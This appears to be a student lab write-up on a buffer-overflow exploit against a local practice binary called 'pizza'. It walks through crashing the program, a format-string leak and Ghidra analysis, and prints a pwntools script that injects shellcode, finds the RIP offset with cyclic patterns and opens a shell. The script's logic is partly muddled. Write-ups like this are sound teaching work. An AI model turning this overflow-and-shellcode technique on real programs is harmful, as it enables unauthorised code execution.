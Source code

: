 #  Control Flow Integrity Violation 


The Weeks Lab focus was on Writing a python script using `pwntools` that executes a given program named `pizza.c`, leaks the stack offset, and spawns a shell. Technique used is `buffer overflow`

---

After downloading the victim program: pizza to my desktop and executed it in my terminal with the command `./pizza`; I obtained the error output `bash: ./pizza: Permission denied`, hence, I added execute permissions to the pizza file with the command chmod +x pizza. Rerun the victim program named pizza and did not encountered error.

After running the victim program: pizza to see how it works as it can be shown from the image below:

![Screenshot from 2023-04-30 12-09-30](https://user-images.githubusercontent.com/66968869/235370146-73381ada-ad4d-47cd-9d69-4d2da068bf7f.png)

I then proceeded to Install pwntools by running `pip install pwntools` in my terminal to install pwntools library for Python on my system.

I tried getting to make the victim program "pizza" to crash by entering a long string of the alphabet `A` as my name or prompt for illustration. This led to an output with a segmentation fault in the image as shown below:

![Screenshot from 2023-04-30 12-53-35](https://user-images.githubusercontent.com/66968869/235371217-5ed04c10-2570-4632-a599-71713944d353.png)

Also using format strings to make something strange happen; by running the executable "pizza" and passing in some format string characters, it can be seen that the program is vulnerable(by providing memory addresses) as it can be seen from the image below as a sample output:

![Screenshot from 2023-04-30 16-07-40](https://user-images.githubusercontent.com/66968869/235378266-9a28a003-1ae5-4af0-8cc7-232930b2ebbe.png)

Moreover, running the file `python3 python_injection.py` provided the output below:

![Screenshot from 2023-04-30 16-00-49](https://user-images.githubusercontent.com/66968869/235378272-5416a3b1-c783-46f2-a5bf-8a86afd1dea4.png)

Furthermore, Opening the executable in Ghidra to really see how it works (and the library functions it is using). From the C code in Ghidra disassemble pane it can be seen that, the program is a basic pizza delivery application that accepts a user's name, the quantity of pizzas they wish to purchase, and their credit card information and then calculates the total cost of the transaction. In terms of how it works; the program starts by declaring some variables, including a pointer to a character array that will hold the user's name, a pointer to a block of memory allocated with malloc, and various local variables of different types. The program then prompts the user to enter their name using the print function and reads the input using the getline function. If getline returns 0, the program exits with an error message otherwise, the program then calls the getname function (a custom function defined), passing it pointers as arguments. The program then enters a loop that prompts the user to enter the number of pizzas they want to order using the print function and reads the input using the scanf function. This loop continues until the user enters a valid number between 1 and 10. Once the user enters a valid number, the program calculates the total cost of the order and displays a message using the printf function.The program then reads the user's credit card information using the scanf function and displays a confirmation message using the printf function. The program makes use of the following library functions including but not limited to `malloc` to allocate memory dynamically, `getline` to read input from the user, `printf` to display messages to the user and `scanf` to read input from the user.

Lastly, running the victim program "pizza" in GDB.

## python script using `pwntools` that executes the given program [pizza], leaks the stack offset, and spawns a shell.
Below is a script in python to run the pizza program, getting the pizza program executable to crash (segfault), stack offset and spawning of the shell. 
```
#!/usr/bin/env python3

from pwn import *

#Setting up context
context.arch = 'amd64'
context.os = 'linux'

binary = './pizza'

offset = 72  # found via manual testing
shellcode = asm(shellcraft.amd64.linux.sh())
padding = b'A' * (offset - len(shellcode))
payload = shellcode + padding + p64(0xdeadbeef)

p = process(binary)

p.sendline(payload)

pattern = cyclic(1000, n=8)
p = process(binary)
p.sendline(pattern)
p.wait()
core = p.corefile
rip_offset = cyclic_find(core.rip, n=8)
log.info(f'RIP offset: {rip_offset}')

padding = b'A' * rip_offset
rip = p64(core.rip)
payload = padding + rip + b'\n'
p = process(binary)
p.send(payload)

p.interactive()

```
The #!/usr/bin/env python3 instruction at the beginning of this script is used for specifying the version of python interpreter and its dependencies to use when parsing the script. rAlso the instruction `from pwn import *` which is normally used in exploit development to import the "pwntools" library, to provide a set of useful tools and utilities for interacting with vulnerable programs and services and also  providing functionalities for compiling and executing shellcode. Also,
context is one of the function's of "pwntools" library that is used to set various context variables that affect the behavior of the library when interacting with vulnerable programs and services. Arch, os, endian, and word_size variables are some of the options that can be set using the context function. Also the command `binary = './pizza'` to define the targeted executable and linkable format.

![Screenshot from 2023-05-01 07-03-16](https://user-images.githubusercontent.com/66968869/235553801-eab2b4a9-3a04-43ee-b9b3-01a0da7dcc42.png)
